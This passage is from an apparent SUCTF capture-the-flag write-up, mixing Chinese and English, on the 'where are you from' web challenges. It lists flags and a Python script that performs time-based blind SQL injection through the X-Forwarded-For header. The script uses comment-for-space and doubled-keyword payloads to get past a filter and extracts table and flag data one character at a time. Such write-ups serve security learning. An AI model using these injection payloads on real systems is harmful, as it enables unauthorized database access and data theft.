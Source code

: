 - FLAG: SUCTF{ha_ha_ha_you_win}

### where are you from level1

- So easy

![1](https://github.com/Chris-Ju/Picture/blob/master/SUCTF-whereareyoufromlevel1.png?raw=true)

- FLAG: SUCTF{X_F0rw4rd3d_F0r_7O_cHe4t_5eV3r}

### where are you from level2

- 单纯使用 x-forwarded-for 以及 Client-IP 不成功
- 当改变 x-forwarded-for 时，发现会显示该部分，使用 sql 查询，猜测语句已经执行，若执行则存在时间盲注

![1](https://github.com/Chris-Ju/Picture/blob/master/SUCTF-whereareyoufromlevel2-1.png)

- 脚本如下

```py
import requests
import string

url="http://49.4.68.67:82/"

# payload="127.0.0.1'/**/and/**/if((substr((select/**/database()),{},1)='{}'),sleep(5),1)/**/and/**/'1'='0"
# payload="127.0.0.1'/**/and/**/if((substr((seselectlect/**/group_concat(column_name)/**/frfromom/**/information_schema.columns),{},1)='{}'),sleep(5),1)/**/and/**/'1'='0"

# payload="127.0.0.1'/**/and/**/if((substr((selselectect/**/table_name/**/frfromom/**/information_schema.tables/**/where/**/table_schema='demo2',{},1)='{}'),sleep(5),1)/**/and/**/'1'='0"
payload="127.0.0.1'/**/and/**/if((ascii(substr((seselectlect/**/fl4g/**/ffromrom/**/flaaag),{},1))={}),sleep(5),1)/**/and/**/'1'='0"

flag = ""
guess = string.ascii_letters+string.digits+string.punctuation
for i in range(1,40):
  print "round: "+ str(i)
  for j in guess:
    tmp = j
    j = ord(j)
    headers={
        "X-Forwarded-For" : payload.format(i,j)
    }
    print "[+]"+ payload.format(i,j)
    try:
      re = requests.get(url, headers = headers, timeout = 4)
    except:
      flag = flag + tmp
      break
  print flag
```
